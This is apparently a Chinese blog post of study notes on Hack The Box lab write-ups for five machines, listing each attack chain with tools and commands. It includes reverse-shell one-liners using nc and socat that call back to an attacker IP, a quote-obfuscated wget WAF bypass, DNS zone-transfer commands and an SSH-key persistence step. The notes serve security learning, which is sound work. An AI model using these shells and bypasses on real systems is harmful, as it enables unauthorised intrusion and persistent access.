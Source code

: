 ```yaml
---
layout: post
title: 《Write-ups for 0xrick's hack-the-box》学习备忘录
description: ""
keywords: ""
---
```


Paper：[Write-ups for 0xrick's hack-the-box](https://0xrick.github.io/categories/hack-the-box/)

### 一、AI

环境概述：Linux、Medium、30'、09 Nov 2019

渗透流程：Nmap -> Web Enumeration -> SQL injection –> Alexa’s Credentials –> SSH as Alexa –> User Flag -> JDWP –> Code Execution –> Root Shell –> Root Flag

知识点：

- Nmap：-sC等价为--script=default，默认调取已知端口的脚本，输出相应服务的详细信息。
- 目录枚举：使用gobuster，`gobuster dir -u http://ai.htb/ -w /usr/share/wordlists/dirb/common.txt -x php`
- 文字转MP3：[https://ttsmp3.com](https://ttsmp3.com)，有中国女声，可读中文。
- MP3转WAV：使用ffmpeg，`ffmpeg -i test.mp3 test.wav`。
- Linux提权：使用`ps aux`查看root权限起的服务，使用`netstat -ntlp`查看敏感端口；在Github上使用关键词搜索exp。

思考：

- 目录枚举：除了gobuster，还有dirb、dirsearch、wfuzz等工具。wfuzz是web模糊处理工具，类似于Burpsuite的intruder功能。
- SQL注入：通过语音识别用户上传的wav文件，执行并输出结果。场景很新颖，hard CTF-style。
- Linux提权：发现Apache Tomcat服务，作者首先确定了此服务无利用价值后，进而深入研究了其Tomcat jdwp服务。

### 二、Player

环境概述：Linux、Hard、40'、06 Jul 2019

渗透流程：Nmap -> Web Enumeration -> FFmpeg HLS Vulnerability –> Arbitrary File Read -> Command Injection –> User Flag -> Credentials in fix.php –> RCE –> Shell as www-data -> Root Flag

知识点：

- 子域名枚举：使用wfuzz，`wfuzz --hc 403 -c -w subdomains-top1mil-5000.txt -H "HOST: FUZZ.player.htb" http://10.10.10.145`。
- 文件泄露：`.swp`, `.bak` and `~`。
- 端口扫描：使用masscan，`masscan -p1-65535 10.10.10.145 --rate=1000 -e tun0`。
- Banner头泄露：通过使用nc，`nc ip port`可查看相应服务泄露的banner头，如SSH可看到版本。
- TTY伪终端：使用python，`python -c "import pty;pty.spawn('/bin/bash')"`。

思考：

- 重定向：渗透过程中将Burpsuite或ZAP打开，便于查看请求历史，避免漏掉重定向前的请求应答页面。
- 源码泄露：`.xxx.php.swp`文件是异常退出vi/vim编辑器时产生的文件，使用`vi/vim -r xxx`恢复，除此之外，还有`.xxx.php.swo`、`.xxx.php.swn`等以sw+最后一个字母依次递增的后缀文件，各种编辑器异常退出产生的文件后缀不唯一。
- TTY交互式终端：使用socat，```#Listener: socat file:`tty`,raw,echo=0 tcp-listen:4444 #Victim: socat exec:`bash -li`,pty,stderr,setsid,sigint,sane tcp:1xx.xxx.xxx.xxx:4444```。
- Linux提权：只要是以root权限运行的服务，都要逐一排查。如果是PHP、Python等启动的程序，要进行代码审计，重点发现文件包含、命令执行漏洞，寻找输入点，并借此进程获取root。

### 三、Bitlab

环境概述：Linux、Medium、30'、07 Sep 2019

渗透流程：Nmap -> Web Enumeration -> File Upload –> RCE –> Shell as www-data -> Database Access –> Clave’s Password –> SSH as Clave –> User Flag -> Reversing RemoteConnection.exe –> Root’s Password –> SSH as Root –> Root Flag

知识点：

- 信息泄露：使用Nmap发现80端口存在robots.txt，-sC参数可以识别并输出具体内容；robots.txt泄露了大量disallow路径。
- 信息泄露：使用F12或开发者工具，查看HTML源代码，可能存在敏感JS代码。
- 路径关联：robots里的某路径和主仓库路径关联，使用同一静态文件（图片等）可快速确定。
- 数据库：连接数据库的工具不单只有特定的客户端程序，常见的编程语言均内置数据库连接函数，可以巧用。
- 数据库：PostgreSQL安装完后默认自带一个命令行工具psql。
- 文件传输：在反弹的伪终端中，使用scp下载文件，`scp clave@bitlab.htb:/home/clave/RemoteConnection.exe ./`。

思考：

- Nmap：-sC和-sV倒不如直接使用-A，DNS、路由等信息也加入识别。
- 信息泄露：在厂商的授权测试中，巧用Github搜索可能会得到意外的代码信息。
- 文件定位：Windows上传某一文件却不知上传路径时，可将文件命名一特殊名，利用`dir /s/b filename*`快速定位；Linux则可以利用grep。
- 数据库：若环境支持PHP，可以利用adminer，支持MySQL, MariaDB, PostgreSQL, SQLite, MS SQL, Oracle, SimpleDB, Elasticsearch, MongoDB。
- URL格式：`postgres://user:pass@host.com:5432/path?k=v#f`，包含了模式（协议）、验证信息、主机、端口、路径、查询参数和查询片段。注意：`@`和`#`。
- 二进制程序：在逆向程序前可先使用关键字进行strings匹配。

### 四、Craft

环境概述：Linux、Medium、30'、13 Jul 2019

渗透流程：Nmap -> Web Enumeration -> RCE –> Shell on Docker Container -> Gilfoyle’s Gogs Credentials –> SSH Key –> SSH as Gilfoyle –> User Flag -> Vault –> One-Time SSH Password –> SSH as root –> Root Flag

知识点：

- 版本控制：查看代码的同时记得查看Git提交记录，即Commit History。
- API泄露：根据API帮助文档，可构造请求数据包，获取服务器对应响应。
- 反弹Shell：使用sh -i、nc，`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f`。
- Python：作者写了个EXP demo，流程、输出都很清晰。其中，nc监听并实时返回结果可以利用subprocess子进程的Popen方法，`Popen(["nc","-lvnp",port])`。
- 环境分析：在`/根目录`发现了`.dockerenv`文件，判定当前环境为Docker容器。
- Linux登陆：使用SSH私钥，`ssh -i private.key user@host`。
- 信息搜集：着重关注用户家目录下的`.xxx`文件，往往都是服务的配置文件，可快速定位当前用户常使用的软件服务。
- Vault：一款密码保护工具，可以生成一次性root密码。

思考：

- 信息泄露：常用的版本控制工具除了Git还有SVN；利用公开的代码库搜索可能会有意外发现，可以使用[searchcode](https://searchcode.com)搜索来自Github, Bitbucket, Google Code, Codeplex, Sourceforge, Fedora Project, GitLab等开源仓库的代码内容。
- 环境分析：Linux下可以通过查看etc下的release文件快速判断，`cat /etc/*release`。Docker可以通过查看网络接口来简单判断，`ip a`。
- 文件查找：可以使用`ls -lat`按时间顺序来查看当前目录下的文件。

### 五、Smasher2

环境概述：Linux、Insane、50'、01 Jun 2019

渗透流程：Nmap -> DNS -> Web Enumeration -> auth.py: Analysis -> session.so: Analysis –> Authentication Bypass -> WAF Bypass –> RCE –> Shell as dzonerzy –> Root Flag -> dhid.ko: Enumeration -> dhid.ko: Analysis -> dhid.ko: Exploitation –> Root Shell –> Root Flag

知识点：

- DNS：通过Nmap发现服务器开启了53/tcp DNS服务，使用dig利用域传送漏洞，`dig axfr smasher2.htb @10.10.10.135`。
- 文件对比：使用diff，`diff getinternalusr getinternalpwd`。
- Bypass：使用单引号，`'w'g'e't 'h't't'p':'/'/'1'0'.'1'0'.'x'x'.'x'x'/'t'e's't'`。
- Linux登陆：使用SSH公私钥，将公钥上传至~下的.ssh目录，命名为authorization_keys并赋予600权限，`~/.ssh/authorized_keys`，`chmod 600 ~/.ssh/authorized_keys`。 
- 信息搜集：查看各类服务的日志记录，`/var/log/`。
- 后半部分涉及到逆向和PWN知识。

思考：

- 域传送：区域传输（Zone transfer）为了给同域下的DNS Server做负载均衡，管理员若配置不当可导致跨域传输，泄露域内DNS记录，如未公开的子域名等。
- 域传送漏洞：前提是获取目标Server使用的NS（Name Server），使用dig，`dig +nostats +nocomments +nocmd NS smasher2.htb`；Windows下可使用nslookup交互式界面，指定NS，`server 10.10.10.135`，列出DNS记录，`ls -d smasher2.htb`。
- DNS：标准服务须同时开启53/tcp、53/udp。递归解析时使用53/udp；区域传输因需要可靠传输必须使用53/tcp。